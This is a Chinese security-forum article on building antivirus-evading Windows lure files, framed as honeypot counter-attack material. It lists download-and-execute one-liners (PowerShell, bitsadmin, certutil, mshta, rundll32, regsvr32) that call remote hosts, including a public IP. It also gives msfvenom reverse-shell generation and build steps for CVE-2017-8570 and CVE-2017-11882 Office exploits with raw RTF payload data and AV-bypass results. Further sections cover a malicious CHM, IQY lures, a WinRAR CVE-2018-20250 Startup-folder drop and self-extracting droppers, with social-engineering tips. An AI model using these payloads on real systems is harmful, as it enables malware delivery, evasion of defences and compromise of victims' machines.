

# Windows "外置"免杀思路 - 先知社区

Windows "外置"免杀思路

- - -

## Windows "置外"免杀应用

  红队或真实案件，经常以文件构造诱饵，如精心构造 cve-2017-11882，以达到突破外网。同理可以反制，中高交互蜜罐中可部署大量文档类型 exp，填充 Shellcode 执行反制。  
  Windows 下可执行文件，包含 word/chm/iqy/sql 等，从 APT 思维出发，杀伤链武器构造/载荷投递环节利用和反制。

### 环境&CMD 远控

```plain
1. 010 工具 (windows16 进制修改)，Nodepad(记事本) 也是可以解析 rtf 格式。
2. Windows 平台&符合 CVE 适用的 Office 版本。
3. Exp 可以执行 Cmd 命令，Cmd 下载执行回连几种常用技术分享。
```

#### Powershell

```plain
cmd.exe /c "powershell(new-object System.Net.WebClient).
DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')"
```

#### Bitsadmin

```plain
cmd.exe /c "bitsadmin /transfer n http://192.168.28.128/imag/evil.txt %tmp%\1.exe  & %tmp%\1.exe"
```

#### Certutil

```plain
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
```

#### Ipc

```plain
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"
```

#### Msfvenom

```plain
1. 利用 msf 生成 msi 包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
2. cmd 执行 - 可回连
msiexec /q /i http://192.168.28.128/evil.msi
```

#### Mshta

```plain
mshta http://192.168.28.128/run.hta
```

#### Run32

```plain
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

#### regsvr32

```plain
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
File.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true); // 执行操作
        ]]>
</script>
</registration>
</scriptlet>
```

#### Pubprn.vbs

```plain
Cmd.exe /c’"%windir%System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://192.168.10.1/test.sct’
Test.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");  // 执行操作
]]>
</script>
</scriptlet>
```

对于溢出漏洞，直接编写 shellcode 执行更灵活更安全，并非一定使用上述 cmd，如 chm 可以编写混淆 js(html 利用) 等。

### Offic 类型：

#### CVE-2017-8570

##### 漏洞介绍

```plain
ppsx 格式漏洞 (ppt)，利用释放特性和机制，双击 ppt 时下载 - 自动执行，样本构建过程相对固定，这里就直接用.py 脚本构建。
```

##### 构建利用步骤

```plain
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
```

可以利用 Msf 回连远控，使用方式如下：

-   生成可执行文档
    
    ```plain
    python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.128.145/logo.doc
    ```
    
-   msf 生成回连 Shellcode
    
    ```plain
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.128.145 LPORT=2255 -f exe > /tmp/shell.exe
    ```
    
-   监听 shellcode
    
    ```plain
    python cve-2017-8570_toolkit.py -M exp -e http://192.168.128.145/shell.exe -l /tmp/shell.exe
    ```
    

这种方式查杀几率较大，但有应用场景，需要配合 RAT(可过免杀) 使用。

#### CVE-2017-11882

##### 漏洞介绍

```plain
2017 年 11 月 14 日微软发布了 11 月安全补丁，其中包含隐藏 17 年之久的 Office 漏洞，编号 CVE-2017-11882，类型是内存破坏 (溢出)，影响了几乎全部 Office 版本，攻击者可以利用漏洞进行任意攻击。
```

Rtf 是一种文档格式，它能够被多数的 Office 软件打开，兼容性比较好，文档格式如下：

```plain
RTF_HEADER + OBJECT_HEADER + OBJECT_DATA +shellcode+ OBJDATA_TEMPLATE + RTF_TRAILER。
```

##### 影响版本：

```plain
Office 365
Microsoft Office 2000      
Microsoft Office 2003      
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2
Microsoft Office 2013 Service Pack 1
Microsoft Office 2016
```

##### 构建利用步骤：

-   填充字段数据见 py 脚本，首先填充 RTF\_HEADER 和 RTF\_TRAILER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084642-83dbae4e-cf89-1.png)

-   填充 OBJECT\_HEADER 和 OBJECT\_TRAILER

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084646-8614496e-cf89-1.png)

-   填充 OBJDATA\_TEMPLATE 和 shellcode，漏洞溢出点是固定，下述 4141 段代码可填充构造的 shellcode。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084650-889240ce-cf89-1.png)

  溢出组件不具备动态随机基址 (ALSR) 和 DEP，可以直接栈执行指令或直接执行函数。测试 shellcode：636d642e657865202f6363616c632e6578652026(cmd.exe /ccalc.exe)，替换到数据段溢出点 414141..。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084656-8c76eec4-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084659-8e398442-cf89-1.png)

-   最终构造文档完成，测试效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084703-90a989ca-cf89-1.png)

-   免杀测试：  
    下述是网上公开的 CVE-11882 检测方案：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084709-93f6066c-cf89-1.png)

  火绒/360 检测大致有两个层面，首先 EQNEDT32.EXE 进程敏感操作拦截，如执行 cmd 或其他指令，第二再 0x411655 地址内存补丁，检测拷贝大小是否越界。

-   格式 1，msf 原生&常规格式 exp 免杀效果：
    
    ```plain
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Kill    Kill    Kill    Kill    Kill    kill
    ```
    
-   格式 2，免杀效果：
    
    ```plain
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Bypass  Kill    Bypass  Bypass  Bypass  Bypass
    ```
    

  格式 2-exp 基于 18 年 360 捕获野外样本进行利用，部分杀软对变种没有进行很好的拦截，也没有做内存补丁拷贝溢出监视，有一定免杀效果。用免杀较好的格式 2 编写了.py 生成，需要注意使用如下：

```plain
用法格式：python cve-2017-11882-exp.py -c "cmd.exe /ccalc.exe &" -o 123456.rtf
```

  注意：生成 exp 需要手动调整，下述标红便是输入的”cmd.exe /ccalc”指令，红色和绿色之间加上一个字符 (41 41 41 中间随意插入)，凑够 88 个字节 (生成后是 87 个)。

```plain
{\*\objdata 01050000020000000b0000004571756174696f6e2e3300000000000000000041000000030101030a0a0401010112836100080000636d642e657865202f6363616c632e657865202641414141414141414141414141414141414141414141414120c43000105000000000000}
[*] Done ! output file >> 123456.rtf <<
```

  nodepad 打开 exp，搜索 41414141 快速定位，按照上述补齐 88 个字节，这 88 个字节可以等换任意可执行的指令，比如执行%temp%xxx.exe 或[http://远程下载](http://xn--ghqp68hvpn1ka/) & 执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084722-9b8bdc58-cf89-1.png)

#### CVE-2018-0802

##### 漏洞介绍

0802 是 CVE-2017-11882 补丁绕过，如果攻击者 word 已经打补丁，该漏洞可以触发利用，使用方式和 11882 相同，可绕过已打补丁 (11882)Word 软件。

### 其它类型：

#### CHM

.chm 是 Windows 可执行文件，该技术手段被 APT 组织使用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084726-9e3e19a2-cf89-1.png)

##### 构建利用步骤：

```plain
hh.exe  -decompile  <解压目录>  <CHM 文件路径>，下图是野外样本 virus.chm 解压后的利用分析：
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084730-a055bc04-cf89-1.png)

  样本使用 Item1.value 值 (执行指令)，更多的高级用法其实是在 html 里编写 js 脚本强混淆都可以执行，扩展性很好，它支持 html 可以内嵌（js）。

```plain
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://23.83.243.205:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
 <PARAM name="Item2" value="273,1,1">
```

-   下载安装：
    
    ```plain
    https://docs.microsoft.com/zh-cn/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads
    ```
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084736-a3f0f126-cf89-1.png)

  打开 hhw.exe，File-New-Project，下一步/下一步选择路径/下一步 htm/选择添加利用文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084738-a5692366-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084742-a7a8f408-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084746-aa140142-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084751-acc23a3a-cf89-1.png)

  添加 html(编写任意利用)，添加内容/选择文件夹 (刚才生成的.hhp 同目录)，伪造价格列表或用户账号密码等，Save all file and compile 即可生成.chm 文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084754-af11e89e-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084758-b1241436-cf89-1.png)

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084801-b31a1d62-cf89-1.png)

##### 免杀测试：

遵守两个原则：

-   多混淆，利用 js 加密执行。
-   非正规 html 格式，如多个 Body 和混乱标签，.chm 都是能正常解析/执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084806-b5bc0c10-cf89-1.png)

360/火绒/windows defender 都无法检测，免杀效果较好。

#### Iqy

  DarkHydrusAPT 黑客组织曾用该手段攻击中东地区政府。该技术必须有交互 (缺陷)，iqy 负责从远程拉去数据下载执行，但是会提示潜在安全问题，点击后才可进行下载执行，需要社工手法构造可信欺骗点击。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084810-b88c22cc-cf89-1.png)

##### 构建方式：

  比较简单，新建文本填写下载执行 url，后缀改为.iqy 即可。需要结合社工手法，比如压缩附件，文件名更改为”远程获取数据库资源列表”，欺骗攻击者信任下载。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084814-baca98f2-cf89-1.png)

#### WinRar

##### 漏洞介绍：

  WinRAR 漏洞（CVE-2018-20250）披露后活跃于黑灰产。因 UNACEV2.dl 处理 ACE 文件格式导致解压过程中存在目录穿越漏洞，允许解压过程中写入文件开机启动项，重启后代码执行。缺陷重启后才会执行，时效性降低，其实并不影响反制效果。

##### 影响版本：

```plain
WinRAR     < 5.70 Beta 1   测试环境使用 winrar-x64-560sc
Bandizip    < = 6.2.0.0
好压 (2345 压缩)    < = 5.9.8.10907
360 压缩     < = 4.0.0.1170
```

##### 构建利用步骤：

释放是可以指定路径，实战中要有通用性，否则会因每台电脑用户名及路径不同导致释放失败。

```plain
Win2003 开机启动项路径：
C:\Documents and Settings\Administrator\「开始」菜单\程序\启动
Win2008 开机启动项路径：
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
Win2012 开机启动项路径：
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
Win7   开机启动项路径：
C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
Win10 开机启动项路径：
C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

```plain
C:\C:C:../AppData\Roaming\Microsoft\Windows\StartMenu\Programs\Startup\test.txt
```

开始构建，安装 wace269i，利用 winace 压缩选中诱饵文件，右击 add to....

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084821-bf0ba596-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084824-c08ed082-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084826-c21f733e-cf89-1.png)

Add to...压缩选择 full path，生成.ace 文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084832-c5aa0334-cf89-1.png)

   
拖入 010 修改 hex，首先找到我们的路径地址，如上图中的 test.bat，替换它的路径到启动目录下，如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084836-c79fc020-cf89-1.png)

加载编写的模板/运行，鼠标移动到 16 进制字符串就会提示表示的含义：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084840-ca3478d0-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084843-cc2982f2-cf89-1.png)

修改大小：0x29 是 Name 大小，改成替换路径大小。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084846-cdc2838e-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084850-d0302824-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084853-d2405e4a-cf89-1.png)

修改 hdr\_type 大小：从 01 01 开始到字符串结尾，共 0x83(原大小 0x48)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084857-d477a786-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084901-d6ca3c56-cf89-1.png)

修改大小工作已完成，最后还有一项 hdr\_crc 需要从新计算，这里使用.py 脚本，添加一行 prinf，再校验之前把修改的文件 crc 值输出

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084905-d96237d4-cf89-1.png)

18416 则是 0x47f0，修改 hdr\_crc

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084908-db0676fe-cf89-1.png)

EXP 构造完成，另存为.rar 解压即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084912-dd03ce5c-cf89-1.png)

脚本使用方式 (以上环境都是 python3)，根据构造修改 py 中下述三处，放在同步目录下运行 exp 即可生成：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084916-dfccf3fc-cf89-1.png)

#### WinRar1

  制作解压即执行的压缩文件，该手法经常被利用再各大论坛/软件网站，分发勒索和挖矿。其实不仅 winrar 软件可以制作，其它压缩软件也可以制作，而且不局限于 7z 或者 zip，可用于反制。  
构建利用步骤：

-   压缩时候选择添加自压缩

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084920-e202098c-cf89-1.png)

高级选项中选择子压缩格式设置，设置解压路径，比如测试路径

```plain
C:\Users\Administrator\AppData\Roaming\Microsoft
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084924-e42dbf6c-cf89-1.png)

重点再设置，提取前/后可运行压缩包中的文件，然后生成 xx.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084927-e612dc5e-cf89-1.png)

  需要配合社工来增加攻击者信任心理，可以精心构造文档和数据/图标/文本信息，模式更改为隐藏 (双击会直接运行/静默解压)，尽量伪装成有价值的数据文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084931-e89a3df0-cf89-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220084935-eade4854-cf89-1.png)

  数据库类型多数是 RCE 利用，需要蜜罐内部部署对应版本的网站和服务。应用场景是黑客拿站过程中反制，利用冰蝎/菜刀等工具 CVE，当远程上传 webshell/查询解析远程数据库，触发软件漏洞反制。
